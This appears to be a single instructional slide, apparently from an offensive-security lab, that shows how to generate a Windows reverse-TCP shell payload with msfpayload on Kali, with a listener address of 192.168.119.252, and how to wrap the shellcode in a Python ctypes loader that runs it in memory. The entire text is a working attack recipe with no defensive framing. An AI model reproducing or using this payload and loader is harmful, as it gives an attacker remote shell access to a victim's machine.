

# INSTRUCTIONS
On Kali
msfpayload windows/shell_reverse_tcp LHOST=192.168.119.252 C > rev
nano rev
Change top to
x=raw_input("Press Enter to continue")
from ctypes import *
shellcode = (
Change bottom to
);
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()